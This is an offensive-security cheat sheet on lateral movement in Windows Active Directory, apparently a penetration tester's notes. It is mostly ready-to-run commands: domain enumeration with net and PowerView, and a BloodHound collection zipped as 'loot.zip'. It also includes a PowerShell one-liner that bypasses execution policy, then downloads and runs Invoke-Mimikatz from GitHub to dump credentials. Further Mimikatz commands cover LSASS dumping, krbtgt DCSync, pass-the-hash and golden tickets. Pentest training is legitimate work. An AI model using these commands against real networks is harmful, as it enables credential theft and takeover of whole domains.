 # Lateral Movement  
## Contents 
- [Lateral Movement](#lateral-movement)
  * [Contents](#contents)
  * [What to Look For](#what-to-look-for)
  * [Quick Commands](#quick-commands)
  * [Post Exploitation Enumeration](#post-exploitation-enumeration)
    + [PowerView](#powerview)
  * [Bloodhound](#bloodhound)
  * [Mimikatz](#mimikatz)
  
## What to Look For 
Post Initial Exploitation  
Enumerate users and groups on the host.     
What privilege level does your user have?       
Is privilege escalation needed?       

## Quick Commands  

    net user
    net user /domain
    net user [username] /domain
    
    net localgroup
    net group /domain
    net group /domain "Domain Admins"  
    
PowerShell Active Directory Module (only on DC by default)

    Get-ADUser
    Get-ADDomain
    Get-ADGroup
    Get-ADGroupMember -identity "Domain Admins" -Domain test.local -DomainController 10.10.10.10
    Find-DomainShare   
    
## Post Exploitation Enumeration      
### PowerView   
Powershell script to enum domain after gaining admin access to machine   

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)   
[PowerView Cheat Sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)    
[Cheat sheet](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands/)   

    powershell -ep bypass   
    . .\PowerView.ps1   
    Get-NetDomain   
    Get-NetUser   
    Get-NetComputer -fulldata   
    
## Bloodhound    
[Bloodhound](https://github.com/BloodHoundAD/BloodHound)   
Bloodhound - GUI app installed on attack box, SharpHound - powershell script to enum and collect data -> exfiltrate as a zip file.     

    apt-get install bloodhound     

on victim, transfer file then import into Bloodhound and run queries   

    . .\SharpHound.ps1   
    Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip        
    
## Mimikatz  
Extracts passwords, hashes, PIN codes and kerberos tickets from memory.   
[Mimikatz and Password Dumps Reference](https://ivanitlearning.wordpress.com/2019/09/07/mimikatz-and-password-dumps/)    
[Online Password Cracker - Crackstation](https://crackstation.net/)     
[Dumping Hashes with Mimikatz - Video](https://www.youtube.com/watch?v=AZirvtZNIEw)   
Loading Powershell Script 

    powershell.exe-exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"    
   
    privilege::debug   
    lsadump::sam   

Dumping credentials from LSASS  

    mimikatz # privilege::debug   
    mimikatz # sekurlsa::logonpasswords   
Dumping credentials from a minidump   

    mimikatz # sekurlsa::minidump lsass.dmp   
    mimikatz # sekurlsa::logonPasswords   
    
DCSync the krbtgt hash  

    mimikatz # lsadump::dcsync /domain:<domain> /user:krbtgt   
Pass the hash   
    
    mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:<cmd>   
Golden ticket creation and pass the ticket   
    
    mimikatz # kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash>   

